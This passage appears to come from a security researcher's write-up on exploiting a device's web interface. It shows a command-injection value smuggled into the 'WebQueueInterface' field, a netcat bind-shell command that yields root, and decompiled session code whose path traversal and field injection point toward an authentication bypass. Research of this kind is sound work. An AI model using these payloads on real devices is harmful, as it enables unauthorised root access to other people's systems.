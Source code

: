 We can see that the thing that matches our log file is sent in this request `WAN`. We try changing this to `AAAAAAAA`, reading the log file reveals... Success! Let's send another request with:
`WebQueueInterface=WAN;echo+'helloworld'+>>+/tmp/helloworld;`
We see that we have succesfully created a new file, we now have RCE. 

### Getting a reverse shell
Now we need to replace this with a proper reverse shell. This is really simple, and is just a simple `nc` command. We could use `nc -l -p 1337 -e 'sh'`, and then connect to the server on port 1337, and boom we're in. Now we just need to privilege escalate to root, and bypass authentication! Or...
```
$ whoami
root
```
Well, seems like we're already root. Well.. Damn.. This exploit is authenticated however, meaning that if a user had changed the username and/or password, our exploit would not run.
Still having a few hours left of the day, and feeling fairly confident about there being plenty of low hanging fruit, we decided to go for an auth bypass as well.

### RevShell v2.0, added authentication bypass!
Looking for which server is responsible for authentication we found that there was a service running called `mini_httpd`, which was responsible for directing traffic to CGI binaries. In this binary there was code for checking whether a user was authenticated:
```c
void ip_addr
if (var_e40 != 0)
    int32_t stream = fopen(&stream#-1, "r+") // Filename is based on requesters cookie
    if (stream == 0)
        var_e4c = 0                          // The file does not exist, this is a new session
        int32_t open_tmp_file = fopen(&stream#-1, "w")
        if (open_tmp_file != 0)
            _fprintf(open_tmp_file, "0 %s NULL %d ", &session_cookie, 1, auth) // Write new session data
            _fclose(open_tmp_file)
    else
        void authorization                  // The file was found, there already was a session
        auth = &authorization
        int32_t num
        if (_fscanf(stream, "%d %s %s ", &num, &ip_addr, auth) s< 3)    // Scan the file for fields
            var_e4c = 1
            _fclose(stream)                     // File has the wrong format, bail
            _unlink(&stream#-1)           
        else
            int32_t var_bf4
            _sysinfo(&var_bf4)
            if (_strcmp(request_ip, &ip_addr) != 0)   // Check that the ip matches request IP
                _memcpy(&authorization, "NULL", 5)
                var_e4c = 0
                sub_401f10(stream)
                auth = &authorization
                var_eac = 1
                _fprintf(stream, "%d %s %s %d ", var_bf4, &ip_addr, auth, 1)
                _fclose(stream)
            else
                if (_strcmp(&authorization, "admin") != 0)
                    if (_strcmp(&authorization, "user") == 0)
```
This is some fairly odd session handling code. The cookie that the user uses is their ip, which is easily bruteforced.
It tries to open a file using the content of the cookie as the filename (yes this is also a path traversal), then writes that same value into it as the IP.
Because of the way it does this, we can inject fields into the session file. The format is:
```
[login attempts] [user controlled value (ip)] [username] [something else]
```

[0]: https://en.wikipedia.org/wiki/Common_Gateway_Interface